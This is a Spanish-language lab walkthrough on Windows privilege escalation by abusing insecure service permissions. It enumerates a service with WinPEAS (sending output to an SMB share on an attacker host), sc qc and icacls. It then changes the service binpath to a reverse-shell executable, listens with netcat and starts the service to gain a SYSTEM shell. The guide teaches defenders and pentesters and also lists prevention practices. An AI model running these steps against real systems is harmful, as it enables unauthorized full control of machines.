





> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Servicios: Insecure Service Permissions

# 🔧 Servicios - Insecure Service Permissions

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### ⚙️ Explotando Servicios en Windows

 

La elevación de privilegios en Windows a través de servicios es una técnica utilizada para obtener permisos más altos en un sistema operativo Windows aprovechando vulnerabilidades o debilidades en los servicios que se ejecutan en él. Un servicio en Windows es un programa que se ejecuta en segundo plano y realiza diversas funciones en el sistema.

 

### 🎯 Vectores de Ataque a Servicios

 

Existen varias formas en las que un atacante puede intentar elevar sus privilegios a través de servicios en Windows:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación de Servicios:
> 

> 

> 
> 1. 
> **Explotación de vulnerabilidades conocidas:** Los servicios en Windows pueden contener vulnerabilidades que permiten a un atacante ejecutar código malicioso con privilegios elevados. Si se descubre una vulnerabilidad en un servicio y no se aplica un parche o actualización, un atacante puede aprovecharla para obtener privilegios más altos.
> 
 
> 2. 
> **Uso de servicios débilmente configurados:** Algunos servicios en Windows pueden tener configuraciones débiles que permiten a un atacante modificar su comportamiento o ejecutar comandos con privilegios elevados. Por ejemplo, si un servicio se está ejecutando con privilegios de administrador y se puede manipular su configuración para ejecutar un programa malicioso, el atacante podría obtener privilegios elevados.
> 
 
> 3. 
> **Suplantación de servicios legítimos:** Un atacante puede crear un servicio falso con un nombre similar al de un servicio legítimo y hacer que el sistema lo ejecute automáticamente al inicio. Este servicio falso puede estar diseñado para ejecutar código malicioso con privilegios elevados, engañando al sistema y al usuario.
> 
 
> 4. 
> **Ataques de reescritura de DLL (DLL Hijacking):** En algunos casos, un atacante puede modificar las rutas de búsqueda de DLL (bibliotecas de enlace dinámico) utilizadas por un servicio. Si el atacante logra colocar una DLL maliciosa en una de las rutas de búsqueda, el servicio puede cargar esa DLL en lugar de la legítima, lo que le permite ejecutar código malicioso con privilegios elevados.
> 
 
> 5. 
> **Unquoted Service Paths:** La vulnerabilidad de la ruta no citada (unquoted path) es una vulnerabilidad común que puede afectar a los servicios de Windows. Esta vulnerabilidad se produce cuando una ruta de archivo no está encerrada entre comillas dobles ("") en el registro de Windows, lo que puede llevar a un comportamiento inesperado y potencialmente malicioso.
> 

> 

 

### 🛡️ Prevención de Elevación de Privilegios

 

Para prevenir la elevación de privilegios a través de servicios en Windows, es importante seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener actualizado el sistema operativo y los servicios instalados, aplicando los parches y actualizaciones de seguridad correspondientes.
> 
> * Configurar adecuadamente los servicios, minimizando los privilegios necesarios para su ejecución.
> 
> * Utilizar contraseñas seguras para las cuentas de servicio y evitar utilizar credenciales de administrador cuando no sean necesarias.
> 
> * Implementar mecanismos de control de acceso y políticas de seguridad adecuadas.
> 
> * Utilizar soluciones de seguridad, como antivirus y firewalls, para detectar y prevenir ataques.
> 

> 

 

 
 

## 🔍 Descubriendo Vulnerabilidades en los Servicios

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si los servicios son vulnerables.

 

Arrancamos el servidor SMB desde Kali para recibir la información de WinPEAS:

 

```bash
$ impacket-smbserver info. -smb2support
```

 

Y ya desde Windows lanzamos WinPEAS y lo redirigimos directamente a Kali:

 

```cmd
C:\> winPEASany.exe quiet servicesinfo >> \\10.0.0.5\info\winpeas_servicios.txt
```

 

### 📊 Paso 2: Analizar los Resultados

 

Vemos el documento txt que hemos recibido y buscamos servicios vulnerables respecto al servicio **daclsvc**:

 

```bash
$ cat winpeas_servicios.txt
```

 



 

> [!tip]
> 
 
> #### 🔎 ¿Qué buscar en los resultados de WinPEAS?
> 
 
> WinPEAS marcará como vulnerables los servicios que cumplan alguna de estas condiciones:
> 

> 
> * 🔴 El usuario actual tiene permisos de **modificación** sobre el servicio
> 
> * 🔴 El usuario actual tiene permisos de **escritura** sobre el ejecutable del servicio
> 
> * 🔴 El servicio se ejecuta con privilegios elevados (SYSTEM)
> 
> * 🔴 El servicio tiene configuración débil (Insecure Permissions)
> 

> 

 

### 🔍 Paso 3: Verificar la Configuración del Servicio

 

Verificamos la configuración del servicio y vemos la ruta del archivo que ejecuta:

 

```cmd
C:\tools> sc qc daclsvc
```

 



 

> [!note]
> 
 
> #### 📋 Información Importante de sc qc:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **SERVICE_NAME**
> 
> 
> 
> **BINARY_PATH_NAME**
> 
> 
> 
> **SERVICE_START_NAME**
> 
> 
> 
> **START_TYPE**
> 
> 
> 
> 
> | Campo | Descripción |
> | --- | --- |
> | | Nombre del servicio |
> | | Ruta del ejecutable del servicio |
> | | Cuenta bajo la que se ejecuta el servicio |
> | | Tipo de inicio (AUTO, MANUAL, DISABLED) |
> 
 

 

### 📊 Paso 4: Validar el Estado del Servicio

 

Validamos el estado actual del servicio:

 

```cmd
C:\tools> sc query daclsvc
```

 



 



 

### 🔐 Paso 5: Verificar Permisos del Ejecutable

 

Usamos **icacls** para ver los permisos asociados al ejecutable:

 

```cmd
C:\tools> icacls "C:\Program Files\DACL Service\daclservice.exe"
```

 



 

> [!tip]
> 
 
> #### 📝 Interpretación de Permisos en icacls:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **F**
> 
> 
> 
> **M**
> 
> 
> 
> **RX**
> 
> 
> 
> **R**
> 
> 
> 
> **W**
> 
> 
> 
> 
> | Permiso | Significado |
> | --- | --- |
> | | Full Control (Control total) |
> | | Modify (Modificar) |
> | | Read & Execute (Leer y ejecutar) |
> | | Read (Leer) |
> | | Write (Escribir) |
> 
 
> Si vemos que **Everyone**, **Users** o nuestro usuario tiene permisos **M** o **F**, el servicio es vulnerable.
> 

 

 
 

## 💥 Explotando las Vulnerabilidades en los Servicios

 

### 🎯 Técnica: Modificar el binpath del Servicio

 

Ahora modificamos el servicio para que al iniciarlo se ejecute nuestro **revshell**:

 

```cmd
C:\tools> sc config daclsvc binpath="\"c:\tools\revshell.exe\""
```

 

> [!warning]
> 
 
> **⚠️ Importante:** El parámetro `binpath` indica qué ejecutable se lanzará cuando el servicio se inicie. Al modificarlo, estamos cambiando el comportamiento legítimo del servicio por nuestro payload malicioso.
> 

 

### 🎧 Paso 1: Poner Netcat a la Escucha en Kali

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 2: Iniciar el Servicio en Windows

 

```cmd
C:\tools> net start daclsvc
```

 

### ✅ Paso 3: Recibir la Shell en Kali

 

Obtendremos el Shell en Kali con privilegios del contexto del servicio:

 


 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido una shell con los privilegios del servicio. Si el servicio se ejecutaba como **NT AUTHORITY\SYSTEM**, ahora tenemos control total del sistema.
> 
> Podemos verificar nuestros privilegios con:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Los servicios de Windows pueden tener permisos inseguros
> 
> * ✅ WinPEAS identifica servicios vulnerables automáticamente
> 
> * ✅ El comando `sc qc` muestra la configuración del servicio
> 
> * ✅ El comando `sc query` muestra el estado del servicio
> 
> * ✅ `icacls` muestra los permisos de archivos y carpetas
> 
> * ✅ Podemos modificar el `binpath` de un servicio vulnerable
> 
> * ✅ Al iniciar el servicio modificado, ejecutamos nuestro payload
> 
> * ✅ Obtenemos privilegios del contexto del servicio (potencialmente SYSTEM)
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS** → 
> **Identificar servicio vulnerable** → 
> **Verificar permisos (sc qc / icacls)** → 
> **Modificar binpath** → 
> **Iniciar servicio** → 
> **Shell con privilegios elevados**
> 
> 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 02: Exploits de Kernel
> 
> → Práctica 03-02: Servicios - DLL Hijacking
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
